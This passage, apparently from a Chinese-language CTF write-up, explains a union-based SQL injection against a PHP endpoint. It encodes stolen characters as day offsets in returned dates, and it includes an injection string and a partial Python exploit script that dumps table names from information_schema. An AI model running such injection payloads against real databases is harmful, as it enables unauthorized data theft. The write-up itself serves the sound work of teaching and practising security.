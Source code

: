 ``` php
    } else {
      die($sql);
    }

    return [
        'results' => $arr
    ];
}
?>
```

在 id 的地方我們可以用 `union` 的方式來讓 price items 變成我們指定的資料，由於 `union` 需要知道有幾個欄位，因此可以先用 `order by {number}` 的方式去看看有幾個欄位，例如說 `order by 2`，代表用第二個欄位來排序，如果不足第二個就會出錯，所以我們可以用類似二分搜的方法知道有幾個欄位，嘗試過後發現一共是 4 個欄位。

接著，`2023-01-01` 換成 timestamp 是 1672502400，因此我們的 id 可以長這樣：

```
0 union select 1672502400,1672502400,1672502400,1672502400
```

會發現回傳的資料中，status 變成 Available，代表我們的 SQL injection 成功了，再來就是要去試哪一個欄位是 start_time，哪一個又是 end_time，可以把每個欄位都變成 1，看看回傳結果會不會改變，就知道有沒有動到這兩個欄位。

總之呢，一波嘗試過後發現第二個欄位是 start_time，第三個是 end_time。

那我們可以怎麼利用呢？一個簡單的做法是像上一題一樣，用 case when 來做事，例如說某條件符合時就 select 出指定的資料（狀態會變 Available），不符合則否（狀態會是 Unavailable），一樣可以慢慢把資料弄出來。

不過這題跟上一題有個很大的不同點，那就是這一題我們可以控制輸出資料中的 start_time 跟 end_time，雖然這兩個值一定要是日期，但我們可以把想回傳的資料偷渡在日期裡面。

我的做法就是這樣，簡單來說就是把想回傳的資料變成一個日期。

我們可以先拿到資料中的第 n 個字元，假設轉成 ascii 之後會是 x，我們可以把這個視為「x 天」的意思，我們把 `x*3600*24` 再加上 `2023-01-01` 的 timestamp 1672502400，就會得到一個新的 timestamp 做為 end_time，並且在 php 被轉成日期。

而我們從 response 中拿到這個日期以後，只要算出從 `2023-01-01` 過了幾天即可，因此把日期先轉回 timestamp，再減去 1672502400 以後除以 86400(`3600*24`)，就會得到這個天數，假設是 98 天好了，就代表當初讀到的字元是 chr(98) 也就是 b，就得到了一個字元。

因此，藉由把 ascii code 偷渡在日期中，每做一次操作我們可以拿到一個字元的資料，程式碼如下：

``` python
# exploit-ava.py
import requests
import datetime
import json
import urllib.parse
import time

host = 'https://od-php.herokuapp.com/sql'
base_time = 1672502400
index = 1
result = ''
field = 'group_concat(table_name)'
fr = " FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'"
fr = urllib.parse.quote(fr.encode('utf8'))
start = time.time()
while True:
  payload = f'ascii(SUBSTRING({field},{index}))*86400%2b{base_time}'
  response = requests.get(f'{host}/availability.php?id=12345%20union%20select%201%20,{base_time},{payload},4%20{fr}&start_time=2023-01-01&end_time=2023-01-01')
  index +=1
  if response.ok:
    data = json.loads(response.text)
    d = data['events'][0]['end']
    if d == '2023-01-01':
      break
    else:
      diff = datetime.datetime.strptime(d, "%Y-%m-%d").timestamp() - base_time
```